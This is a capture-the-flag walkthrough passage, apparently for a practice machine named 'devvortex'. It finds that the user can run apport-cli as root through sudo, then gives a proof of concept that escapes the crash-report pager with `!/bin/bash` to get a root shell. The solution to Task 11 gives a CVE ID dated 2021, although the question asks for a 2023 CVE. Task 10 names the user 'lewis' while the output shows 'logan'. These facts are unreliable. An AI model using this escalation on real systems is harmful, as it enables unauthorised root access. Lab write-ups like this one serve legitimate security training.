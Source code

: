 ## Task 10

What is the full path to the binary that the lewis user can run with root privileges using `sudo`?

## Solution 10

Now let's see if we have sudo permissions:

```sh
sudo -l

Matching Defaults entries for logan on devvortex:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User logan may run the following commands on devvortex:
    (ALL : ALL) /usr/bin/apport-cli
```

And here we see also the location which is `/usr/bin/apport-cli`.

-----------

## Task 11

What is the 2023 CVE ID of the privilege escalation vulnerability in the installed version of apport-cli?

## Solution 11

Let's check the version.

```sh
logan@devvortex:~$ sudo /usr/bin/apport-cli --version
2.20.11
```

Now search on google for any exploit for this version.

There is a vulnerability with the CVE `CVE-2021-1326`.

--------

## Task 12

Submit the flag located in the root user's home directory.

## Solution 12

Now we will use the exploit found.

A PoC for this vulnerability is:

```sh
sudo /usr/bin/apport-cli -c /var/crash/some_crash_file.crash
press V (view report)
!/bin/bash
```
